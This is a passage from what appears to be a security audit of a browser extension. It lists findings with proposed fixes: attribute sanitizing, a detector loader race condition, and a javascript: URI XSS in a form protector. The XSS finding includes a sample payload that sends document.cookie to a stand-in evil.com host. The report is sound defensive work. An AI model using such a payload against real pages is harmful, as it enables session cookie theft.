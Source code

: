 **Fix:**
```javascript
if (key === 'title') {
  element.setAttribute(key, DOMSecurity.sanitizeHTML(value));
}
if (key === 'className' && /^[a-zA-Z0-9\-_ ]+$/.test(value)) {
  element.className = value;
}
```

**Effort:** 2 hours

---

### HIGH-04: Detector Loader Race Condition
**File:** `modules/content/detector-loader.js:8, 17-57`
**Risk:** Analysis failure, stub detector mix

**Problem:**
Multiple concurrent calls start 50+ parallel wait loops with race on `detectorsLoaded` flag.

**Fix:**
```javascript
export async function loadDetectors() {
  if (detectorsLoaded && detectors) return detectors;
  if (loadingPromise) return loadingPromise;  // Actually use this

  loadingPromise = (async () => {
    // ... load logic
  })();

  return loadingPromise;
}
```

**Effort:** 1 hour

---

### HIGH-05: Form Protector javascript: URI XSS
**File:** `modules/content/form-protector.js:838-841`
**Risk:** Content script sandbox escape

**Problem:**
```javascript
verifyLink.href = sanitizeHTML(alertData.verification);
// sanitizeHTML doesn't prevent javascript: URIs
```

**Attack:**
```javascript
showBrandedAlert({
  verification: 'javascript:fetch("https://evil.com?cookie="+document.cookie)'
});
```

